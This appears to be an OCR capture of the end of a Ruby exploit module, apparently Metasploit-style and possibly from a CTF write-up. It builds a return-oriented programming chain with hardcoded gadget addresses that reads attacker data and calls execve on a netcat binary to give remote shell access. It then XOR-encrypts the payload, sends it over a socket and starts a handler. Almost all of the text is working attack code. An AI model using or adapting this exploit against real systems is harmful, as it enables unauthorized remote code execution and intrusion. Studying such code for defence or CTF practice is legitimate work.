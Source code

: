     # ROP chain for nread
    ropbuf = [0x0804952d].pack('V') # addr of nread
    ropbuf += [0x08048f85].pack('I') # return address, also pop;pop;pop
    ropbuf += [0x00000000].pack('I') # arg0: filedes
    ropbuf += [0x0804b420].pack('V') # arg1: buf ptr
    ropbuf += [data.length].pack('I') # arg2: length

    # ROP chain for execve
    ropbuf += [0x08048818].pack('V') # pop ebx | ret
    ropbuf += [0x0804b3d8].pack('V') # got entry for execve
    ropbuf += [0x08049fe3].pack('V') # call ebx
    ropbuf += [0x0804b438].pack('V') # addr of /bin/nc.traiditonal
    ropbuf += [0x0804b420].pack('I') # addr of args
    ropbuf += [0x00000000].pack('I') # null

    buf = prejunk + ropbuf
    e = xor_encrypt(buf, key)
    encrypt(e.length, e)

    # Send the quit command
    sock.put('Q')

    # Send extra data for the rop chain to read
    sock.put(data)

    handler
    disconnect
  end
end
{% endhighlight %}

